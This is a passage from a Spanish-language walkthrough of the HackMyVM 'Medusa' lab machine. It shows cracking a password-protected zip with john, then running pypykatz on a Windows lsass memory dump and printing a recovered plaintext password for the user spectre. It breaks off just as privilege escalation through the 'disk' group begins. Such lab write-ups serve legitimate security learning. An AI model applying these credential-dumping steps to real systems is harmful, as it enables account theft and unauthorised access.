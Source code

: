 Listando sus contenidos vemos que hay un archivo `old_files.zip`.

![](@assets/HackMyVM/medusa/zip.png)

Me lo traigo mi máquina pero al descomprimirlo pide contraseña así que intento crackearlo con `john`.

![](@assets/HackMyVM/medusa/john.png)

Dentro contiene un archivo `lsass.DMP`

```bash
❯ file lsass.DMP
lsass.DMP: Mini DuMP crash report, 12 streams, Tue Jan 17 14:08:32 2023, 0x1826 type
```

## Extrayendo volcado del archivo `.DMP`

> Los archivos DMP son conocidos como archivos de volcado de memoria en ordenadores que funcionan con el sistema operativo Microsoft Windows.

Parece ser un archivo de volcado por lo que puede contener credenciales. Para dumpear su contenido podemos usar [pypykatz](https://github.com/skelsec/pypykatz)

```bash
❯ pypykatz lsa minidump -o lsass_dump.out lsass.DMP
INFO:pypykatz:Parsing file lsass.DMP
```

Filtrando en el archivo `lsass_dump.out` por **spectre** ya que es un usuario existente en la máquina encontramos una contraseña.

```bash
== LogonSession ==
authentication_id 845877 (ce835)
session_id 7
username spectre
...
== WDIGEST [ce835]==
        username spectre
        domainname Medusa-PC
        password 5p3ctr3_p0is0n_xX
...
```

Usándola para loguearnos en bash mediante `su specre`. Tenemos shell como **spectre** y la primera flag.

![](@assets/HackMyVM/medusa/user.png)

# Escalada de privilegios

De primeras vemos que el usuario **spectre** pertenece al grupo `disk`.

```bash
spectre@medusa:~$ groups
spectre disk cdrom floppy audio dip video plugdev netdev
```
